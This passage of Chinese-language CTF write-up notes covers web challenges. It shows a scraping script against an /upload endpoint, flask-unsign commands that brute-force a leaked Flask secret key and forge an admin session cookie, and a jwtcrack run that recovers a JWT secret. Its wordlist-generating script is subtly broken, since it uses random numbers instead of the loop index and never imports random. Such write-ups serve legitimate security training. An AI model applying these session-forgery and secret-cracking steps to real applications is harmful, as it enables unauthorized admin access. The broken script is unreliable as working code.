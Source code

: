 		  r = base_post(url + "/upload", data = {
		      "title": path,
		      "content": '114'
		  }, allow_redirects = False)
		  print(r.status_code)
		  print(r.url)
		  
		  r = base_get(url + "/home")
		  bs = BeautifulSoup(r.text, "html.parser")
		  print(r.status_code)
		  # body > ul:nth-child(2) > li:nth-child(12)
		  uri = bs.select("body > ul:nth-child(2) > li > a")[-1].attrs["href"]
		  r = base_get(url + uri)
		  bs = BeautifulSoup(r.text, "html.parser")
		  # print(r.text)
		  content = str(bs.select("body p")[0])
		  print(content)
		  ```
- # you konw flask?
  collapsed:: true
	- robots.txt信息泄漏，看到`/3ysd8.html`，其中有注释：
		- ```text
		   key是  app.secret_key = 'wanbao'+base64.b64encode(str(random.randint(1, 100)).encode('utf-8')).decode('utf-8')+'wanbao' (www,我可爱的菀宝,我存的够安全的吧) 
		  ```
	- 生成字典
		- ```python
		  import base64
		  with open("words.txt", "w") as f:
		      for i in range(1, 101):
		          f.write('wanbao'+base64.b64encode(str(random.randint(1, 100)).encode('utf-8')).decode('utf-8')+'wanbao' + "\n")
		  ```
	- 使用flask unsign爆破
		- ```shell
		  flask-unsign -u -c 'eyJpc19hZG1pbiI6ZmFsc2UsIm5hbWUiOiIxMjMiLCJ1c2VyX2lkIjoyfQ.ZUz9nA.ebVoaXZinRo31CVTDEzfnRulGlg' -w words.txt
		  ```
	- 拿着爆破出来的key伪造admin身份
		- ```shell
		  flask-unsign -s -c "{'is_admin': True, 'name': '123', 'user_id': 2}" --secret 'wanbaoMzg=wanbao'
		  ```
	- 使用新的session cookie登陆即可
- # 雨
  id:: 654dda41-c3ee-4d76-b945-69080bd6539a
  collapsed:: true
	- jwt爆破
		- ```shell
		  ./jwtcrack 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QiLCJpYXQiOjE2OTk2MDA4NzB9.rZSOHjbuvwqWCVGlQfhnVlapU7CgPsRS58l1he4lDqY'
		  Secret is "VanZY"
		  
